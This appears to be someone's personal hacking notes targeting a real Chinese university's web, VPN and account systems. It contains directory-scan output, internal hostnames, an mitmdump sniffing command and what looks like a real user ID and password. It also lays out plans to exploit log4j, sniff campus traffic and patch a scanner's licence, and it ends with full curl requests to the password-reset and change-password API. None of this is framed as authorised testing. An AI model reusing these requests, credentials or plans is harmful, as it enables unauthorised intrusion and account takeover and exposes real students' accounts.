 ```yaml
---
{"categories": &id001 ["freelancer", "hack"], "category": "hacking", "date": "2021-12-22 05:45:58", "description": "The article discusses hacking attempts on lixin.edu.cn and the use of tools such as dirbuster and Kali Linux to find vulnerabilities. It also includes a HTTP request command for changing passwords on the server.", "tags": *id001, "title": "The Hack (Get password and tests)"}

---
```


------
dirbuster has found something over  "http://oa.lixin.edu.cn//test/"
+ http://oa.lixin.edu.cn//admin (CODE:301|SIZE:237)
+ http://oa.lixin.edu.cn//css (CODE:301|SIZE:235)
+ http://oa.lixin.edu.cn//help (CODE:301|SIZE:236)
+ http://oa.lixin.edu.cn//images (CODE:301|SIZE:238)
+ http://oa.lixin.edu.cn//js (CODE:301|SIZE:234)
+ http://oa.lixin.edu.cn//setup (CODE:301|SIZE:237)
+ http://oa.lixin.edu.cn//template (CODE:301|SIZE:240)
+ http://oa.lixin.edu.cn//test (CODE:301|SIZE:236)
+ http://oa.lixin.edu.cn///admin (CODE:301|SIZE:237)
+ http://oa.lixin.edu.cn///help (CODE:301|SIZE:236)
+ http://oa.lixin.edu.cn///images (CODE:301|SIZE:238)
+ http://oa.lixin.edu.cn///script (CODE:301|SIZE:238)
suspicious:
http://oa.lixin.edu.cn/oanew/sys/taskcenterapp/*default/index.do
portal (even in the internet):
http://202.121.255.3:8080/portal
Scan this website with kali linux.
The Intranet Gateway For Campus: (maybe less hops?)
https://app.topsec.com.cn
mitmdump --mode socks5 --listen-port 8050 -w logs.log --flow-detail 3 --set stream_websocket=true
pdvpn.lixin.edu.cn
pdvpn2.lixin.edu.cn
vpn.lixin.edu.cn
vpn2.lixin.edu.cn
xxb.lixin.edu.cn/jszl/57078.htm
201960630:CHENweiyi0519
https://cas.paas.lixin.edu.cn/cas/login?service=https%3A%2F%2Flxjw.lixin.edu.cn%2Fcas%2Flogin
https://security-center.paas.lixin.edu.cn/find-pwd
20039370
missing puzzle for changing password:
trial user:
201960249
found russia hacker's kali tool site: https://en.kali.tools/all/
apparently we have some issue with log4j and this could be our way in, the damn server.
sniffing the whole damn campus is only possible if we know how to get into the same subnet of all people.
have searched related websites with site:lixin.edu.cn, could get more if keep doing so, using dnsenum.
to get all site links with proper titles, we need to use playwright.
nessus scanner has that 16 ips limitation, we need to crack/patch it first.
to master kali linux, recommend to scrape kali_tools (https://tools.kali.org/) and tutorialspoint (https://www.tutorialspoint.com/kali_linux/index.htm) for kali, or just simply using manpage.
cisco router is untouched till now. need we to scan it?
(intermediate ip addresses)
curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/passwordStrategy/verify' \
-H 'Connection: keep-alive' \
-H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
-H 'Accept: application/json, text/plain, */*' \
-H 'Content-Type: application/json;charset=UTF-8' \
-H 'sec-ch-ua-mobile: ?0' \
-H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
-H 'sec-ch-ua-platform: "Chrome OS"' \
-H 'Origin: https://security-center.paas.lixin.edu.cn' \
-H 'Sec-Fetch-Site: same-site' \
-H 'Sec-Fetch-Mode: cors' \
-H 'Sec-Fetch-Dest: empty' \
-H 'Referer: https://security-center.paas.lixin.edu.cn/' \
-H 'Accept-Language: en-US,en;q=0.9' \
--data-raw '{"password":"abcdefABC","userId":""}' \
--compressed
curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/forgotPassword/changePassword' \
-H 'Connection: keep-alive' \
-H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
-H 'Accept: application/json, text/plain, */*' \
-H 'Content-Type: application/json;charset=UTF-8' \
-H 'sec-ch-ua-mobile: ?0' \
-H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
-H 'sec-ch-ua-platform: "Chrome OS"' \
-H 'Origin: https://security-center.paas.lixin.edu.cn' \
-H 'Sec-Fetch-Site: same-site' \
-H 'Sec-Fetch-Mode: cors' \
-H 'Sec-Fetch-Dest: empty' \
-H 'Referer: https://security-center.paas.lixin.edu.cn/' \
-H 'Accept-Language: en-US,en;q=0.9' \
--data-raw '{"confirmPassword":"abc123ABC","newPassword":"abc123ABC","nonce":"YzhhZmZjYzktNWQ3Ny00MGU1LTg0ODgtYTYzZTMzMDZkMjU0XzE2NDAyNjg5MzcyNTY"}' \
--compressed
